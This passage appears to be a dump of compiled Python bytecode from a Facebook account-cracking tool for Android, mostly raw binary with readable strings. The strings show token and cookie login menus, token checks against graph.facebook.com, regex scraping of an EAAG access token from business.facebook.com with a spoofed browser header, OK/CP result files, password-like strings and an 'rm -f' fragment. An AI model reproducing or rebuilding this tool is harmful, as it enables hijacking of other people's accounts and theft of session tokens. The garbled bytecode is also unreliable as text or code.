 Safari/537.36z\x08/sdcard/z\x03\x1b[mz\x05\x1b[93mz\x07\x1b[1;92mz\x05\x1b[32mz\x05\x1b[95mz\x05\x1b[33mz\x07\x1b[1;96mz\x07\x1b[0;34m\xda\x07January\xda\x08FebruaryZ\x05MarchZ\x05AprilZ\x03MayZ\x04JuneZ\x04JulyZ\x07AgustusZ\tSeptemberZ\x07OctoberZ\x08NovemberZ\x08December)\x0c\xda\x011\xda\x012\xda\x013\xda\x014\xda\x015\xda\x016\xda\x017\xda\x018\xda\x019\xda\x0210\xda\x0211\xda\x0212)\x0c\xda\x0201\xda\x0202\xda\x0203\xda\x0204\xda\x0205Z\x0206Z\x0207Z\x0208Z\x0209r)\x00\x00\x00r*\x00\x00\x00r+\x00\x00\x00z\x03OK-\xfa\x01-z\x04.txtz\x03CP-c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s\x0e\x00\x00\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00d\x00S\x00)\x02N\xda\x05clear)\x02\xda\x02os\xda\x06system\xa9\x00r5\x00\x00\x00r5\x00\x00\x00\xda\x06stringr2\x00\x00\x00W\x00\x00\x00s\x02\x00\x00\x00\x00\x01r2\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00C\x00\x00\x00s\n\x00\x00\x00t\x00\x83\x00\x01\x00d\x00S\x00)\x01N)\x01\xda\x05loginr5\x00\x00\x00r5\x00\x00\x00r5\x00\x00\x00r6\x00\x00\x00\xda\x04backZ\x00\x00\x00s\x02\x00\x00\x00\x00\x01r8\x00\x00\x00z\x06Alhaj-z\x0c-Busra4786==z\x06Lover-\xe9\n\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00s\xa0\x00\x00\x00z\x82t\x00d\x01d\x02\x83\x02\xa0\x01\xa1\x00}\x00t\x02\xa0\x03|\x00\xa1\x01\x01\x00z\x1ct\x04\xa0\x05d\x03t\x02d\x04\x19\x00\x17\x00\xa1\x01}\x01t\x06\x83\x00\x01\x00W\x00nH\x04\x00t\x07yN\x01\x00\x01\x00\x01\x00t\x08\x83\x00\x01\x00Y\x00n2\x04\x00t\x04j\tj\ny~\x01\x00\x01\x00\x01\x00t\x0b\x83\x00\x01\x00t\x0ct\r\x83\x01\x01\x00t\x0cd\x05\x83\x01\x01\x00t\x0e\x83\x00\x01\x00Y\x00n\x020\x00W\x00n\x18\x04\x00t\x0fy\x9a\x01\x00\x01\x00\x01\x00t\x08\x83\x00\x01\x00Y\x00n\x020\x00d\x00S\x00)\x06N\xfa\n.token.txt\xda\x01r\xfa+https://graph.facebook.com/me?access_token=r\x02\x00\x00\x00\xf5\x18\x00\x00\x00 [\xc3\x97] Connection Timeout)\x10\xda\x04open\xda\x04read\xda\x07tokenku\xda\x06append\xda\x08requests\xda\x03get\xda\x0bpublic_menu\xda\x08KeyError\xda\x06Public\xda\nexceptions\xda\x0fConnectionErrorr2\x00\x00\x00r\t\x00\x00\x00\xda\x04logo\xda\x04exit\xda\x07IOError)\x02\xda\x05tokenZ\x02syr5\x00\x00\x00r5\x00\x00\x00r6\x00\x00\x00r7\x00\x00\x00a\x00\x00\x00s\x1e\x00\x00\x00\x00\x01\x02\x01\x0e\x01\n\x01\x02\x01\x12\x01\n\x01\x0c\x01\n\x01\x10\x01\x06\x01\x08\x01\x08\x01\x10\x01\x0c\x01r7\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x00\x00s2\x00\x00\x00|\x00d\x01\x17\x00D\x00]$}\x01t\x00j\x01\xa0\x02|\x01\xa1\x01\x01\x00t\x00j\x01\xa0\x03\xa1\x00\x01\x00t\x04\xa0\x05d\x02\xa1\x01\x01\x00q\x08d\x00S\x00)\x03N\xda\x01\ng{\x14\xaeG\xe1z\x84?)\x06\xda\x03sys\xda\x06stdout\xda\x05write\xda\x05flush\xda\x04time\xda\x05sleep)\x02\xda\x01z\xda\x01er5\x00\x00\x00r5\x00\x00\x00r6\x00\x00\x00\xda\x05jalanq\x00\x00\x00s\x04\x00\x00\x00\x00\x01\x0c\x01rV\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\x0c\x00\x00\x00C\x00\x00\x00s\x82\x01\x00\x00t\x00\x83\x00\x01\x00t\x01t\x02\x83\x01\x01\x00t\x01d\x01\x83\x01\x01\x00t\x03d\x02\x83\x01}\x00|\x00d\x03v\x00r\xbet\x03d\x04\x83\x01}\x01t\x04d\x05d\x06\x83\x02\xa0\x05|\x01\xa1\x01}\x02z0t\x06\xa0\x07d\x07|\x01\x17\x00\xa1\x01}\x03t\x08\xa0\t|\x03j\n\xa1\x01d\x08\x19\x00}\x04t\x01d\t\x83\x01\x01\x00t\x0b\x83\x00\x01\x00W\x00nL\x04\x00t\x0cy\x98\x01\x00\x01\x00\x01\x00t\x01d\n\x83\x01\x01\x00t\r\xa0\x0ed\x0b\xa1\x01\x01\x00t\x0f\x83\x00\x01\x00Y\x00n$\x04\x00t\x06j\x10j\x11y\xba\x01\x00\x01\x00\x01\x00t\x01d\x0c\x83\x01\x01\x00t\x12\x83\x00\x01\x00Y\x00n\x020\x00n\xc0|\x00d\rv\x00\x90\x01r~zft\x03d\x0e\x83\x01}\x05t\x06j\x07d\x0fd\x10d\x11d\x12d\x13d\x14d\x15d\x16d\x17d\x18d\x19\x9c\td\x1a|\x05i\x01d\x1b\x8d\x03}\x06t\x13\xa0\x14d\x1c|\x06j\n\xa1\x02}\x07t\x04d\x05d\x06\x83\x02\xa0\x05|\x07\xa0\x15d\x1d\xa1\x01\xa1\x01}\x08t\x01d\t\x83\x01\x01\x00t\x0b\x83\x00\x01\x00W\x00nN\x04\x00t\x16\x90\x01y|\x01\x00}\t\x01\x00z4t\x17\xa0\x18d\x1e\xa1\x01\x01\x00t\x01d\n\x83\x01\x01\x00t\r\xa0\x0ed\x0b\xa1\x01\x01\x00t\x0b\x83\x00\x01\x00t\x12\x83\x00\x01\x00W\x00Y\x00d\x00}\t~\tn\nd\x00}\t~\t0\x000\x00d\x00S\x00)\x1fNz. [01] Login With Token\n [02] Login With Cookiez\x13\n [#] Select One : \xa9\x02r \x00\x00\x00r,\x00\x00\x00z\r [+] Token : r:\x00\x00\x00\xda\x01wr<\x00\x00\x00\xda\x02idz\x15 [\x1a] Login Successfulu\x13\x00\x00\x00 [\xc3\x97] Login Failed g\x00\x00\x00\x00\x00\x00\x04@r=\x00\x00\x00\xa9\x02r!\x00\x00\x00r-\x00\x00\x00z\x0e [+] Cookie : z0https://business.facebook.com/business_locationsz\x8fMozilla/5.0 (Linux; Android 12.1.0; MI 8 Build/OPM1.171019.011) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.86 Mobile Safari/537.36z\x19https://www.facebook.com/z\x15business.facebook.comz\x1dhttps://business.facebook.comr \x00\x00\x00\xfa#id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7\xfa\tmax-age=0z\xactext/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8z\x18text/html; charset=utf-8)\t\xfa\nuser-agent\xda\x07referer\xda\x04host\xda\x06origin\xfa\x19upgrade-insecure-requests\xfa\x0faccept-language\xfa\rcache-control\xda\x06accept\xfa\x0ccontent-type\xda\x06cookie)\x02\xda\x07headers\xda\x07cookiesz\t(EAAG\\w+)r\x01\x00\x00\x00z\x10rm -f